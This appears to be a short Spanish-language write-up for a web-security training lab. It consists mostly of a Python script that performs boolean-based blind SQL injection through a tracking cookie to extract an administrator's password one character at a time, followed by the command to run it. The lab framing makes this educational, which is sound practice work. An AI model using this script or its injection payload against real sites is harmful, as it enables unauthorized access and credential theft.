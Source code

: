 > De forma opcional podemos ver el tamaño de la contraseña, esto nos da más precisión a la hora de crear el script en python.

```python
import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print('\n\n[+] Exiting...\n')
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


characters= string.digits + string.ascii_letters
url= "https://0a7a00f703ea90ba827b8836007f004c.web-security-academy.net/"


def SQLI():
	password=""
	p1.status("Starting")
	time.sleep(2)
	for position in range(1,21):
		for character in characters:
			cookies= {
			'TrackingId' : f"TvXMzKlqgSfVoLVu'and (select substring(password,{position},1) from users where username='administrator')='{character}'-- -",
			'session':'ssseVb0zU0yGxMnWleooIm2dOnRjdt5T'
			}
			p1.status(cookies['TrackingId'])
			r= requests.get(url=url,cookies=cookies)
			if "Welcome" in r.text:
				password+=character
				p2.status(password)
				break


if __name__ == '__main__':
	p1=log.progress("SQLI")
	p2=log.progress("Password")
	SQLI()
```

```bash
❯ python3 sqli.py
```
